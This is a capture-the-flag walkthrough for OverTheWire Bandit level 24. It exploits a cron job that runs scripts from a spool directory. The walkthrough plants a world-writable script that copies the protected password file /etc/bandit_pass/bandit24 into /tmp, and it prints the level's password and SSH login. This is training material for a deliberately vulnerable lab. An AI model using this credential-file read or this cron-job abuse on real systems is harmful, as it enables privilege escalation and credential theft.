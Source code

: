 # Bandit Level 24
## Part I

```bash
    ps -aux
    # USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    # bandit23   922  0.0  0.1  21156  5080 pts/33   Ss+  14:36   0:00 -bash
    # bandit23  6488  0.0  0.1  21156  5080 pts/21   Ss+  14:48   0:00 -bash
    # bandit23  9915  0.0  0.0  23816  3508 pts/95   S+   14:57   0:00 nano script
    # bandit23 11295  0.0  0.1  21148  4860 pts/76   Ss   15:00   0:00 -bash
    # bandit23 17360  0.0  0.1  21148  4868 pts/95   Ss   14:09   0:00 -bash
```
```bash
    cd /etc/cron.d/
    ls -al
    cat cronjob_bandit24
    # @reboot bandit24 /usr/bin/cronjob_bandit24.sh  &> /dev/null
    # * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    cat /usr/bin/cronjob_bandit24.sh
    # We see a pretty simple program Lets run it
    /usr/bin/cronjob_bandit24.sh
```
```bash
    mkdir /tmp/reda3
    cd /tmp/reda3
    chmod 777 .
    vim firstscript.sh
    # !/bin/sh
    # cat /etc/bandit_pass/bandit24 > /tmp/reda3/result_password
    # Then [ESC] and :wq to save and quit.
    chmod 777 firstscript.sh
    # Make the shell executable for all the users
    cp firstscript.sh /var/spool/bandit24
    # After few seconds 'result_password' will appear
    cat result_password
```

And copy the text to your clipboard (or try [the scp Method](https://github.com/Reda-BELHAJ/OverTheWire/blob/main/Bandit/Bandit0-9/Level1.md#part-i))
## Part II

The ***host*** to which you need to connect is *bandit.labs.overthewire.org*, on ***port*** 2220. The ***username*** is *bandit24* and the ***password*** is the text from your clipboard [Part 1](https://github.com/Reda-BELHAJ/OverTheWire/blob/main/Bandit/Bnadit21-34/Level24.md#part-i). 

1. Enter the following command:  

```bash
	ssh bandit.labs.overthewire.org -p 2220 -l bandit24
	# OR ssh bandit24@bandit.labs.overthewire.org -p 2220
	# password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
2. Enter the password as shown in the comment of bash.
